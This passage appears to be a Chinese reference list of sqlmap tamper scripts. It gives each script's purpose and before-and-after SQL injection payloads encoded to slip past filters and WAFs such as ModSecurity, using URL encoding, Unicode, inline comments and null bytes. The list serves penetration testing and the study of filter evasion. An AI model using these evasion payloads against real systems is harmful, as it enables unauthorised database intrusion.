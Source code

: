 适用数据库：MSSQL\
作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp\_password\
使用脚本前：`tamper('1 AND 9227=9227-- ')`\
使用脚本后：`1 AND 9227=9227-- sp_password`

#### **charencode.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0\
作用：对给定的payload全部字符使用url编码（不处理已经编码的字符）\
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`\
使用脚本后：`%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45`

#### **charunicodeencode.py**

适用数据库：ASP、ASP.NET\
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3\
作用：适用字符串的unicode编码\
使用脚本前：`tamper('SELECT FIELD%20FROM TABLE')`\
使用脚本后：`%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045`

#### **modsecurityversioned.py**

适用数据库：MySQL\
测试通过数据库：MySQL 5.0\
作用：过滤空格，使用mysql内联注释的方式进行注入\
使用脚本前：`tamper('1 AND 2>1--')`\
使用脚本后：`1 /*!30874AND 2>1*/--`

#### **modsecurityzeroversioned.py**

适用数据库：MySQL\
测试通过数据库：MySQL 5.0\
作用：使用内联注释方式`（/*!00000*/）`进行注入\
使用脚本前：`tamper('1 AND 2>1--')`\
使用脚本后：`1 /*!00000AND 2>1*/--`

#### **apostrophenullencode.py**

适用数据库：ALL\
作用：用非法双字节Unicode字符替换单引号\
使用脚本前：`tamper("1 AND '1'='1")`\
使用脚本后：`1 AND %00%271%00%27=%00%271`

#### **appendnullbyte.py**

适用数据库：ALL\
作用：在有效载荷的结束位置加载null字节字符编码\
使用脚本前：`tamper('1 AND 1=1')`\
使用脚本后：`1 AND 1=1%00`

#### **chardoubleencode.py**

适用数据库：ALL\
作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）\
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`\
使用脚本后：`%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545`
